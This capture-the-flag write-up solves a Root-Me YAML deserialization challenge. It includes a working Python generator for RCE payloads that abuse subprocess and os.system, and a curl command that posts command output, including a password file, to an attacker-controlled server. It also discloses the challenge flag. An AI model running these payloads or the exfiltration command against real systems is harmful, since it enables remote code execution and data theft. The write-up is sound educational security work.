 # Yaml - Deserialization

When you open the chall, this is what you will see

![anh1](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/YamlDe_1.PNG)

Take a look at the HTTP request which we sent to the server, you will see that there's nothing seems to be injectable. However, if you look at the url, you will notice that the path of it is encoded in base64. The url is `http://challenge01.root-me.org:59071/eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg`. Decode the `eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg` part of the url and this is what you will get: `yaml: We are currently initializing our new site ! `. Try to change the part behind `yaml:` to `Hello world`, then base64 encode it and paste it in the url to check if we can inject the url or not.

![anh2](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/YamlDe_2.PNG)

So we know that the url is injectable, it's yaml deserialization attack. Please read [this document](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter) to understand what yaml deserialization is. From the document, we know that this attack can lead to RCE and we can leverage that RCE to steal the admin password.

Why do we have to use RCE when we can just exploit it directly? Because when you execuse the command with `subprocess`, you will get a line like `<subprocess.Popen object at 0x7fa4b29509a0>` first, follow after that is the result of your command. But the challenge is only return a first line when you executed the code, so we must find another way.

![anh3](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/YamlDe_3.PNG)

Thank to this [Python deserialization attack payload generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator), I can write my own code to exploit this chall. This challenge requires the payload to have the `yaml:` part before the payload, so we can't just use the original Github repos above. This is my code to exploit this challenge:

```python

import yaml
import subprocess
import base64


class Payload(object):
    def __init__(self, payload):
        self.payload = payload

    def __reduce__(self):
        return (subprocess.Popen, (self.payload,))


data = input("Enter RCE command: ")
if "\"" in data:
	quotesData = base64.b64decode("ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSAhIXB5dGhvbi90dXBsZQogIC0gcHl0aG9uCiAgLSAtYwogIC0gIl9faW1wb3J0X18oJ29zJykuc3lzdGVtKHN0cihfX2ltcG9ydF9fKCdiYXNlNjQnKS5iNjRkZWNvZGUoJw==") + \
        base64.b64encode(bytes(data, 'utf-8')) + base64.b64decode("JykuZGVjb2RlKCkpKSI=")
	newData = "yaml: " + quotesData.decode('utf-8')
	print(base64.b64encode(bytes(newData,'utf-8')))
else:
	ctf = {"yaml": Payload(tuple(data.split(" ")))}
	obj = yaml.dump(ctf)
	print(obj)
	newData = base64.b64encode(bytes(obj, 'utf-8'))
	print(newData)

```

I will briefly explain the above code.  My code will generate the payload to exploit the challenge with the formula `yaml: + payload`. If the payload have double quotes in it, we have to make a payload manually (not using `yaml.dump()`) because I haven't find out how to make a double quotes payload working with `yaml.dump()`. You can debug the `if` condition to understand why I write the code like that.

With the code above, we just need to enter the command we want to use and it will automatically generate the payload. I have already tried to use reverse shell, but whenever the server connect to my port, it automatically disconnect after a few seconds later. So I switch to another method, which is send data to a third-party server using `curl`.

The command I used to exploit is `curl -i -H "Content-Type: text/plain" -X POST --data "$(<command>)" <yourserver>`. Now I will explain why I write the command like that.

In linux, you can execute a linux command using `$()`. Using this method, you can send execute the command and send it to a third-party server with `curl`. So if I use `curl -i -H "Content-Type: text/plain" -X POST --data "$(ls -a)" `, I will list all the directories in the server and send it to my server.

![anh4](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/YamlDe_4.PNG)

Go to my server to check if anything happened

![anh5](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/YamlDe_5.PNG)

Good. Then read the `.password` file and we are done.

![anh6](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/Yaml_De6.PNG)

The password is in the body of the request. It is `561385a008727f860eda1afb7f8eba76`.